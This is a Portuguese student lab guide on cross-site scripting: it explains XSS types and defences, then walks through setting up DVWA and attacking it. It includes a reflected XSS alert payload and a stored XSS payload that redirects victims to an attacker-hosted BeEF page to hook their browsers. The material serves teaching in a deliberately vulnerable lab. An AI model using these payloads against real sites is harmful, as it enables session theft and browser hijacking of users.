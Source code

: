 # PRÁTICA XSS

## Dupla:
Anderson Felipe Costa

Antonio Thiago Costa

## O que é XSS?

O ataque de Cross-site scripting (XSS) consiste em uma vulnerabilidade causada pela falha nas validações dos parâmetros de entrada do usuário e resposta do servidor na aplicação web. Este ataque permite que um código HTML seja inserido no navegador do usuário alvo.

Tecnicamente, este problema ocorre quando um parâmetro de entrada do usuário é apresentado integralmente pelo navegador, como no caso de um código javascript que passa a ser interpretado como parte da aplicação legítima e com acesso a todas as entidades do documento (DOM). Na prática, o responsável pelo ataque executa instruções no navegador da vítima usando um aplicativo web vulnerável, modificando estruturas do documento HTML.
Algumas vezes o atacante não tem como alvo diretamente sua vítima,  pelo contrario ele explora uma vulnerabilidade em um site que o alvo pode visitar com o objetivo de entregar o JavaScript malicioso para ele. No navegador do alvo, o JavaScript malicioso parece ser como parte integrante do site, o que torna o ataque efetivo e quase imperceptível para a vítima.

Podemos considerar um JavaScript como sendo malicioso quando ele consegue acessar informações confidenciais dos usuários, como os cookies ou quando são enviadas requisições HTTP contendo scripts maliciosos que podem usar o XMLHttpRequest. Claro que estes são apenas alguns exemplos, mesmo porque os ataques de XSS permitem uma série de combinações no ataque.

Um bom exemplo é uma aplicação vuneravel é o fórum, em que o usuário tenha permissão para incluir mensagens de sua própria autoria para que os outros usuários possam ler. Se este aplicativo não filtrar corretamente os códigos HTML, um usuário mal intencionado pode injetar instruções para leitura de informações específicas do usuário legítimo, tais como códigos de sessão, e até mesmo executar tarefas específicas como enviar mensagens de maneira arbitrária para o fórum.

## Tipos de XSS

Existem três tipos mais conhecidos são eles:

* XSS Stored que consiste em um código malicioso que pode ser permanentemente armazenado no servidor web/aplicação, como em um banco de dados, fórum, campo de comentários etc. O usuário torna-se vítima ao acessar a área afetada pelo armazenamento do código mal intencionado.Esse tipo de XSS são geralmente mais significativos do que outros, uma vez que um usuário mal intencionado pode potencialmente atingir um grande número usuários apenas com uma ação específica e facilitar o processo de engenharia social. Em alguns casos, o navegador afetado pode até mesmo se comportar como se estivesse infectado por um worm, replicando cópias para cada usuário que execute o código mal intencionado.

* XSS Reflected script é ativado por meio de um link, que envia uma solicitação para um site com uma vulnerabilidade que permite a execução de scripts mal-intencionados. A vulnerabilidade geralmente é resultado de solicitações recebidas sem criptografia, o que permite a manipulação das funções de um aplicativo da Web e a ativação de scripts mal-intencionados. Para distribuir o link malicioso, um criminoso normalmente o incorporam em um site de e-mail ou de terceiros (por exemplo, em uma seção de comentários ou em mídias sociais). O link é incorporado dentro de um texto âncora que faz com que o usuário clique nele, o que inicia a solicitação XSS para um site explorado, refletindo o ataque de volta ao usuário. Ao contrário de um ataque armazenado, em que o autor deve localizar um site que permita a injeção permanente de scripts mal-intencionados, os ataques refletidos exigem apenas que o script mal-intencionado seja incorporado a um link. Sabendo disto, para que o ataque seja bem-sucedido, o usuário precisa clicar no link infectado. Ataques refletidos são mais comuns. Os ataques refletidos não têm o mesmo alcance que os ataques XSS Stored. XSS reflected podem ser evitados por usuários vigilantes. Como pode se ver esse tipo de ataque é executado por meio de engenharia social, convencendo o usuário alvo que a requisição a ser realizada é legítima. As consequencias variam de acordo com a natureza da vulnerabilidade, podendo variar do sequestro de sessões válidas no sistema, roubo de credenciais ou realização de atividades ilicitas em nome do usuário afetado.

* Dom Based XSS: É o tipo mais difícil de ser encontrado entre os três, porque depende de uma das vulnerabilidades em algum dos componentes da página, sendo que o script faz alterações no HTML atual da página através da manipulação do DOM (Document Object Model). Recentemente, o tema TwentyFifteen, que é padrão nas instalações do WordPress, foi alvo desse tipo de vulnerabilidade e deixou milhões de sites vulneráveis.

## Problemas para impedir ataques XSS

Uma das principais dificuldades na prevenção de vulnerabilidades XSS é a codificação adequada de caracteres. Em alguns casos, o servidor da Web ou o aplicativo da Web podem não filtrar algumas codificações de caracteres, portanto, por exemplo, o aplicativo da Web pode filtrar "<script>", mas pode não filtrar% 3cscript% 3e que simplesmente inclui outra codificação de tags.

## Métodos de prevenção

* Encoding e Validation: A função do Encoding é filtrar os dados que o usuário irá inserir para que o navegador o interprete apenas como dado e não como código. Um exemplo clássico é a conversão em HTML, como "<" e ">" em "&lt;" e "&gt;". O objetivo do Validation é filtrar todas as entradas do usuário que podem ser maliciosas para a sua aplicação, e essa será a sua primeira linha de defesa contra os ataques XSS. Essa validação funciona melhor através da prevenção sobre os dados que possuem limites de valores. Um exemplo é uma variável “Int” (inteiro), que não precisa conter códigos HTML.

* Use bibliotecas Anti-XSS: As bibliotecas Anti-XSS fornecem um conjunto de funções que irá facilitar o filtro dos dados para bloquear os 
ataques XSS. algumas delas:

1. Microsoft AntiXSS Library .NET 
2. HTML Purifier  PHP
3. Java Encoder Java

* Utilize o Content Security Policy (CSP): O Content Security Policy é um cabeçalho HTTP que fornece uma whitelist de recursos confiáveis no qual o navegador poderá confiar. Um recurso pode ser um script, CSS, imagem ou outro tipo de arquivo que poderá ser indicado. Isso significa que mesmo se um atacante conseguir injetar um código XSS no seu site, o CSP poderá impedir a sua execução. O único problema atual do CSP é que a interpretação é diferente em alguns navegadores e por isso você terá que fazer um tratamento de qual Header enviar. Usando a flag HttpOnly: O HttpOnly é uma flag adicional que pode ser incluída junto com a opção Set-Cookie. Quando o HttpOnly é usado, o JavaScript não será capaz de ler esse cookie protegido se acontecer a exploração do XSS do lado do cliente. Caso o navegador suporte essa opção, mesmo que a falha de XSS exista e o atacante consiga fazer uma vítima acessar o link que pode explorar a falha, o navegador não irá fornecer os dados do cookie para o atacante. X-XSS-Protection no Header: Este cabeçalho pode ser utilizado para configurar uma proteção no navegador contra ataques XSS Reflected. Atualmente, apenas os navegadores Internet Explorer, Google Chrome e Safari (WebKit) o suportam.

## INSTALAÇÃO DO DVWA E APRESENTAÇÃO DO BEFF

### Servidor APACHE2 - Ubuntu Server
### Atacante - Kali Linux

1. Instalação normal do Ubuntu server, até chegar a Seleção de pacotes, nela selecione LAMP server e OpenSSh server.
![imagem01](imagens/01.png)
####Obs: Caso não for utilizar o Ubuntu Server basta executar

```
sudo apt install lamp-server^ 

sudo apt install openssh-server
```

2. Após o processo de instalação do S.O e o LAMP, exeute o comando abaixo, para remover os pacotes php:

```
sudo apt-get purge `dpkg -l | grep php | awk '{print $2}' | tr "\n" " "`
```
![imagem03](imagens/03.png)

3. Em Seguida, inserir um repositorio de onde sera baixado o php necessario para DVWA e um update:

```
sudo add-apt-repository ppa:ondrej/php
sudo apt update
```
![imagem03](imagens/04.png)

4. Neste passo instale o php5.6 e os modulos necessarios além do unzip com:
```
sudo apt install php5.6 php5.6-gd php5.6-mbstring php5.6-mcrypt php5.6-mysql php5.6-xml unzip
```
![imagem07](imagens/07.png)

5. Inicie o apache:
```
sudo systemctl start apache2
```

6. Ative o módulo do php5.6 no apache:
```
sudo a2enmod php5.6
```
![imagem09](imagens/09.png)

7. Entre na pasta /var/www onde será baixado o pacote DVWA e execute o wget e o unzip:
```
cd /var/www
sudo wget https://github.com/ethicalhack3r/DVWA/archive/master.zip
sudo unzip master.zip -d html
```

8. Agora entre na pasta html e mude o nome da pasta descompactada para facilitar o acesso:
```
cd html
sudo mv DVWA-master dvwa
```

9. Agora altere a linha com allow_url_include de off para on:
```
sudo vim /etc/php/5.6/apache2/php.ini
```
![imagem17](imagens/17.png)

10. Agora copie o modelo do arquivo config do DVWA executando:
```
sudo cp dvwa/config/config.inc.php.dist dvwa/config/config.inc.php
```

11. Altere o arquivo criado:
```
sudo vim dvwa/config/config.inc.php
```
![imagem22](imagens/22.png)
Obs: Neste arquivo deixe o usuario como root e em db_password insira a senha configurada na instalação, caso não tenha senha, deixe somente '';.

12. Altere também o arquivo xss_s, para poder inserir mais caracteres no campo de comentarios do XSS Stored, necessario para poder escrever o script completo.
```
sudo vim dvwa/vulnerabilities/xss_s/index.php
```

Busque por mtxMessage
![imagem23](imagens/22.1.png)

Altere o proximo numero após maxlenght
![imagem24](imagens/22.2.png)

![imagem25](imagens/22.3.png)

13. Reinicie o apache
```
sudo systemctl restart apache2
```

14. Após toda a configuração, vá ao navegador e insira a URL IP-do-servidor/dvwa. Neste ponto a pagina é aberta, após checar todos os pontos necessarios clique em Create / Reset Database:

![imagem26](imagens/23.png)

Tela de login do DVWA - Usuario: admin e senha:password
![imagem27](imagens/24.png)

Após inserir usuario e senha temos a seguinte tela:

![imagem28](imagens/25.png)
Nela temos todas as opções de teste de ataque, nesta pagina clique em DVWA Security para alterar a dificuldade do ataque. Vai estar em impossible, altere para Low e clique em Submit.

## Ataques

### XSS Reflected
Clique em XSS(Reflected) e no campo de texto insira.
```
<script type="text/javascript"> alert('texto'); </script>
```
![imagem29](imagens/26.png)
Devera aparecer esta tela de pop-up com o texto inserido.

### XSS Stored

Para este ataque utilizaremos o Beef xss framework, uma ferramenta de pentest do Kali Linux
![imagem30](imagens/27.png)

1. Abra o beef

Está é a tela inicial do beef, o usuario padrão é beef e a senha igual
![imagem31](imagens/28.png)

2. No DVWA, insira no campo mensagem este código:
```
<script> document.location="http://IP-do-Atacante:3000/demos/butcher/index.html" </script>
```
Este link direciona para uma pagina de teste de ataque XSS pronta. No campo nome coloque qualquer coisa

![imagem32](imagens/29.png)

3. Voltando ao beff, no lado esquerdo da página surge o IP do browser infectado pela pagina.
![imagem33](imagens/30.png)

4. Clicando no IP da vitima recebemos varias opções, podendo o atacante com este acesso fazer outros ataques ao usuario infectado atraves do navegador.

![imagem34](imagens/31.png)

5. Agora é so testar as opções e se divertir!


## Prática Proposta

Instalar o DVWA e realizar um XSS Reflected, fazendo surgir um pop-up, apresentando o nome do aluno, printar esta tela e postar no Git Hub.


## Referências

https://imasters.com.br/devsecops/5-formas-para-prevenir-os-ataques-xss

https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)

https://www.incapsula.com/web-application-security/reflected-xss-attacks.html

http://www.redesegura.com.br/2012/01/saiba-mais-sobre-o-cross-site-scripting-xss/

https://www.youtube.com/watch?v=OVLz6RgOjIY

https://medium.com/@GustavoOliveira/xss-cross-site-scripting-ae5fe11b0f2e

https://portswigger.net/kb/issues/00200300_cross-site-scripting-reflected

https://github.com/ethicalhack3r/DVWA

